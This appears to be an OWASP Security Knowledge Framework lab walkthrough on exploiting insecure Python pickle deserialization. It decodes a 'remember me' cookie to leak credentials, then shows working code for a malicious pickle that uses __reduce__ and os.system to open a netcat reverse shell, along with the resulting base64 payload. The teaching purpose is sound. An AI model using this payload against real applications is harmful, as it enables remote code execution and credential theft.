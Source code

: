 # KBID xxx - Deserialization - Pickle-2

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle-2
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution. 

Lets start the application and register a new user

![](.gitbook/assets/DES-Register.png)

![](.gitbook/assets/DES-Register2.png)

Please note that (for convenience) your password will be reset if the user already exists.
Also note that the username and password are case sensitive.

Now that we have valid credentials, we can login:

![](.gitbook/assets/DES-Login1.png)

You can check the 'remember me' checkbox if you want to login next time without providing credentials.

After providing the correct credentials we're logged in:

![](.gitbook/assets/DES-Loggedin.png)

To logout, use the link/button in the upper right corner.

The goal is to find where the application uses serialization and create your own serialized object to spawn a reverse shell.

## Exploitation

Once we've successfully logged in using the rememberme checkbox, we can return to the login screen any time and login just by clicking the 'Submit Button' without providing credentials:

![](.gitbook/assets/DES-Rememberme1.png)

This results in the following request and response:

![](.gitbook/assets/DES-Rememberme2.png)

This works because we received a rememberme cookie during our initial login:

![](.gitbook/assets/DES-Rememberme3.png)

As you might have guessed, the remember me cookie is a serialized object, (probably containing your credentials) which will be deserialised and verified, once you submit the login form. This functionality provides you an easy login without entering credentials, but it is not without risk ! If we can deserialise it, the credentials will be leaked. In addition, we can create our own object that that will be deserialized and instantiated if we submit it to the webserver.

If we know or guess the used technology (in this case:pickle serialisation in python), we can try to deserialise the object

```python
import pickle, base64
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
print(pickle.loads(base64.b64decode(b64)).__class__)
```

This shows us the object is an instance of the usr class.
So we can enumerate the properties of the object as follows:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(dir(a))
```

```text
This will output the following:
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'password', 'username']
```
The attributes we were looking for are 'password' and 'username'

Putting it all toghther:
```Python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(a.username)
print(a.password)
```

Although the above was nice to understand what serialization comprehends, we still need to exploit the vulnerability ;-)

To exploit the vulnerability we'll create an object that runs a system command to start a reverse shell.
After instanciating the object, we serialize it and base64 encode it. This output will be our payload. 


```Python
import pickle, base64,os

class skf(object):
  def __reduce__(self):
    return (os.system,("nc -nv 127.0.0.1 1234 -e /bin/sh",))

a = skf()
ser = pickle.dumps(a)
print (base64.b64encode(ser))
```

This will yield the following output:
```Text
gANjcG9zaXgKc3lzdGVtCnEAWCAAAABuYyAtbnYgMTI3LjAuMC4xIDEyMzQgLWUgL2Jpbi9zaHEBhXECUnEDLg==
```

Now we prepare a net cat listner on our machine, ready to receive the reverse shell:

![](.gitbook/assets/DES-nc-listner.png)

We can submit our malicious payload in Burp Suite Repeater by replacing the cookie value with the one we generated above:
![](.gitbook/assets/DES-Sendpayload.png)

A revers shell is is connected:
![](.gitbook/assets/DES-Shell.png)



## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" caption="" %}

